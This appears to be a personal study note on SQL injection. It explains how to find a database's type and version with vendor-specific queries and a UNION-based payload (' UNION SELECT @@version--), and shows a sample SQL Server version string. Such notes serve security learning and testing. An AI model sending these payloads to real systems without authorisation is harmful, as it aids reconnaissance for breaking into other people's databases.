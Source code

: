 # Querying the database type and version
#DATABASEENUM 

Each database provider defines a way to query the version. It's often needed to try different queries to find one that works, allowing to determine the version and the database software.

Some examples of popular databases are:

#SQLiPAYLOAD
Database type| Query
------------ | ------------
Microsoft, MySQL|`SELECT @@version`
Oracle|`SELECT * FROM v$version`
PostgreSQL|`SELECT version()`

Using an `UNION` attack use the following payload
#SQLiPAYLOAD 

```SQL
' UNION SELECT @@version--
```

That might return a result containing the software and version of the database in this case `Microsoft SQL Server`

```
Microsoft SQL Server 2016 (SP2) (KB4052908) - 13.0.5026.0 (X64) Mar 18 2018 09:11:49 Copyright (c) Microsoft Corporation Standard Edition (64-bit) on Windows Server 2016 Standard 10.0 <X64> (Build 14393: ) (Hypervisor)
```

## Exploitation examples

- Oracle [[Oracle querying database type and version]]
- MySQL & Microsoft [[MySQL & Microsoft querying database type and version]]


## Further enumeration

[[Listing the contents of the database]]